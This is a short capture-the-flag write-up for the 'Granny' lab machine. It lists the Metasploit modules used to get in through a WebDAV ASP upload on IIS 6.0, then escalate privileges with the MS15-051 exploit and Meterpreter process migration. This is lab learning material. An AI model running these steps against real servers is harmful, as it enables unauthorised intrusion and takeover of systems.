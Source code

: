 # Granny Write-Up

Easy

Tags:
`Easy`
`External`
`WebDav`
`ASP`
`Penetration Tester Level 2`
`Unrestricted File Upload`
`CVE-2014-4113`
`Enumeration`
`IIS`
`Misconfiguration`
`CVE-2017-7269`
`Public Vulnerabilities`
`CVE Exploitation`
`CVE-2015-1701`


## Intro

1. Use msf module

2. Process migration in Meterpreter

## Enumeration

### Port scanning

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
```

search iis

use iis_webdav_upload_asp

## Privilege Escalation

backgrounding session `<id>`

run post/multi/recon/local_exploit_suggester

use ms15_051_client_copy_image

interact session `<id>`

show process list

migrate `<pid>`

run ms15_051_client_copy_image

## Reference

[htb-granny Write-Up](https://blog.barradell-johns.com/index.php/2019/07/27/htb-granny/)